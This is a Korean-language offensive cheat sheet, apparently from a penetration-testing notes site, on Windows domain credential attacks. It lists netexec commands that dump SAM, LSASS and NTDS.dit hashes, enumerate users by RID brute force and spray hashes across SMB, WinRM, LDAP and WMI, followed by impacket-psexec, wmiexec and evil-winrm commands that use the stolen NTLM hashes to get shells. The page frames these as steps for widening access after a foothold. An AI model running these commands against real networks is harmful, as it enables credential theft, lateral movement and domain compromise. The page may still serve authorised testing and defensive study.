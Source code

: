 ```yaml
---
layout: page
title: Tunnelling
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 원격 크리덴셜 덤프 및 활용 가이드

네트워크의 한 시스템에 대한 접근 권한을 획득했다면, 다음 목표는 그 권한을 발판 삼아 다른 시스템의 크리덴셜(해시, 티켓, 비밀번호)을 원격으로 탈취하여 공격 범위를 넓히는 것입니다. 이 가이드는 `netexec`과 `impacket`을 중심으로 원격 크리덴셜 덤프와 활용법을 설명합니다.

---

### **1. 원격 해시 덤프 (Remote Hash Dumping)**

- **목표:** 현재 보유한 자격증명을 사용하여 원격 시스템의 다양한 위치에 저장된 비밀번호 해시를 추출합니다.

#### **방법 A: SAM 하이브 덤프 (로컬 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한이 있을 때, SAM 데이터베이스를 덤프하여 로컬 계정들의 NTLM 해시를 획득합니다.

```bash
netexec smb $target -u <local_admin> -p <password> --sam | fgrep -v '[' | awk -F: '{print $4}' | tee dumped_hashes.txt
```

#### **방법 B: LSASS 메모리 덤프 (로그온된 계정)**
- **설명:** 원격 시스템의 로컬 관리자 권한으로 LSASS 프로세스 메모리를 덤프합니다. 최근에 로그온한 도메인 계정의 해시나 평문 비밀번호가 메모리에 남아있을 수 있습니다.

```bash
netexec smb $target -u <local_admin> -p <password> -M lsassy | fgrep '[' | awk '{print $6}' >> dumped_hashes.txt
```

#### **방법 C: NTDS.dit 덤프 (모든 도메인 계정)**
- **설명:** 도메인 컨트롤러(DC)의 관리자 권한이 있을 때, Active Directory의 모든 사용자 및 컴퓨터 계정의 해시가 저장된 `NTDS.dit` 데이터베이스 파일을 덤프합니다. 도메인 장악의 핵심 단계입니다.

```bash
netexec smb <DC_IP> -u <domain_admin> -p <password> -M ntdsutil | fgrep -v '[' | awk -F: '{print $4}' >> dumped_hashes.txt
```

#### **방법 D: rid-brute**
- **설명:**  도메인의 모든 사용자 목록을 가져옵니다.

```bash
netexec smb $target -u 'user1' -p 'Password1!' --rid-brute | grep -i 'sidtypeuser' | awk '{print$6}' | cut -d '\' -f2 | tee users.txt
```

---

### **2. 수집된 크리덴셜 정리 및 재사용**

- **목표:** 덤프 과정에서 지저분하게 수집된 해시들을 정리하고, 이를 다른 시스템에 대한 공격에 재사용하여 측면 이동(Lateral Movement)을 시도합니다.

#### **1단계: 해시 및 사용자 목록 정리**
- 덤프된 결과에서 순수한 NTLM 해시와 사용자 이름만 추출하여 별도의 파일로 저장합니다.

```bash
# 덤프 결과에서 해시만 추출하여 정렬 및 중복 제거
awk -F: '{print $4}' dumped_hashes.txt | sort -u > unique_hashes.txt

awk 'NF {print $1}' dumped_hashes.txt | sort | uniq | tee unique_hashes.txt

# 덤프 결과에서 사용자 이름만 추출
awk '{print $1}' dumped_users.txt > users.txt
```

#### **2단계: 크리덴셜 스프레이 (Credential Spraying)**
- 정리된 사용자 목록과 해시 목록을 사용하여 네트워크의 다른 시스템들에 대규모 인증을 시도합니다.

```bash
# 여러 프로토콜에 대해 수집한 해시로 인증 시도
netexec smb $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec winrm $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec ldap $target -u users.txt -H unique_hashes.txt --continue-on-success
netexec wmi $target -u users.txt -H unique_hashes.txt --continue-on-success
```

---

### **3. 셸 획득**

- **목표:** 새로 찾아낸 유효한 자격증명을 사용하여 다른 시스템의 셸을 획득합니다.

```bash
rlwrap impacket-psexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

```bash
evil-winrm -i $new_target -u <user> -H <ntlm_hash>
```

```bash
rlwrap impacket-wmiexec <domain>/<user>@$new_target -hashes :<ntlm_hash>
```

